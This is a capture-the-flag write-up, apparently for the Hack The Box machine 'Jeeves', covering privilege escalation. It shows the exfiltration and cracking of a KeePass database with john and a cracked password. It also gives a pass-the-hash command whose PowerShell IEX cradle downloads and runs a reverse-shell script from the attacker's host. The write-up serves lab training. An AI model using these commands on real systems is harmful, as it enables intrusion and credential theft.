


# 20 - PrivEsc


# Keepass password database
```
PS C:\Users\kohsuke\Documents> dir


    Directory: C:\Users\kohsuke\Documents


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-a----        9/18/2017   1:43 PM           2846 CEH.kdbx                            
```


# Base64 encode the file to upload to our own box.

```powershell
PS C:\Users\kohsuke\Documents> $filename = "C:\Users\kohsuke\Documents\CEH.kdbx"
PS C:\Users\kohsuke\Documents> $base64string = [Convert]::ToBase64String([IO.File]::ReadAllBytes($filename))
PS C:\Users\kohsuke\Documents> $filename                                                                              
C:\Users\kohsuke\Documents\CEH.kdbx                                                                                                                                                                                                          
PS C:\Users\kohsuke\Documents> $base64string
A9mimmf7S7UBAAMAAhAAMcHy5r9xQ1C+WAUhavxa/wMEAAEAAAAEIAAa9AXMAPl53bm7OHxFlPzqL9AaagdXwADhhz88cZQdPQUgADhp/jV/8tfbFVXMZo0dYGsd+vArnbomIcvp7LY8ekCRBggAcBcAAAAAAAAHEAA5PJe+r9ioINuRQqapTwP2CCAAWZ4wEPE4riv5v4Uh9MRMleBMc2lD741lgyqIZvdKF5gJIAC3N
2a2HmVjUcOsoCgvFhdREDHwFWCJtsVkfeRnGXL8/woEAAIAAAAABAANCg0Ky0CdvA+mYPz/pPHMifcotoJU20MaIewzKYthL+ZH20iSyupN0WzVd3n56kgupOMXNbuM7E+YnejgMO3DkhxMaG6uIFi77zQ11k1FoijlIw2do7ruxk0juAgEIZnNmJof6q1Ruy3/yKNzB3p5u1HD8J/rVfr+dYCFqtNfpoE6tjuNHPxj3n...
```

# Extract the master keyword hash from CEH.kdbx to brute force with john
```bash
└─$ ls
CEH.kdbx 
┌──(kali㉿kali)-[10.10.14.12/23]-[~/htb/jeeves/www]
└─$ keepass2john CEH.kdbx 
CEH:$keepass$*2*6000*0*1af405cc00f979ddb9bb387c4594fcea2fd01a6a0757c000e1873f3c71941d3d*3869fe357ff2d7db1555cc668d1d606b1dfaf02b9dba2621cbe9ecb63c7a4091*393c97beafd8a820db9142a6a94f03f6*b73766b61e656351c3aca0282f1617511031f0156089b6c5647de4671972fcff*cb409dbc0fa660fcffa4f1cc89f728b68254db431a21ec33298b612fe647db48
┌──(kali㉿kali)-[10.10.14.12/23]-[~/htb/jeeves/www]
└─$ keepass2john CEH.kdbx  > hash.txt
┌──(kali㉿kali)-[10.10.14.12/23]-[~/htb/jeeves/www]
└─$ john hash.txt -w=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (KeePass [SHA256 AES 32/64])
Cost 1 (iteration count) is 6000 for all loaded hashes
Cost 2 (version) is 2 for all loaded hashes
Cost 3 (algorithm [0=AES, 1=TwoFish, 2=ChaCha]) is 0 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
moonshine1       (CEH)
1g 0:00:00:24 DONE (2021-06-10 20:37) 0.04111g/s 2260p/s 2260c/s 2260C/s mwuah..moonshine1
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```


# Download a keepass client
```bash
sudo apt install keepass2
```


# Login with the master key



# Backup stuff stores administrator hash



# Use the backup hash to execute commands as administrator
```bash
┌──(kali㉿kali)-[10.10.14.12/23]-[~/htb/jeeves/www]
└─$ pth-winexe -U jeeves/Administrator%aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00 //10.10.10.63  'powershell IEX(New-Object Net.WebClient).DownloadString(\"http://10.10.14.12/rev.ps1\")'
E_md4hash wrapper called.
HASH PASS: Substituting user supplied NTLM HASH...
```


# Alternate data stream 
```powershell
PS C:\users\Administrator\Desktop> cmd /c dir /R
 Volume in drive C has no label.
 Volume Serial Number is BE50-B1C9

 Directory of C:\users\Administrator\Desktop

11/08/2017  10:05 AM    <DIR>          .
11/08/2017  10:05 AM    <DIR>          ..
12/24/2017  03:51 AM                36 hm.txt
                                    34 hm.txt:root.txt:$DATA
11/08/2017  10:05 AM               797 Windows 10 Update Assistant.lnk
               2 File(s)            833 bytes
               2 Dir(s)   7,468,900,352 bytes free
```

# Get the hash from the data stream
```bash
PS C:\users\Administrator\Desktop> cat hm.txt  -Stream root.txt
afbc5...
```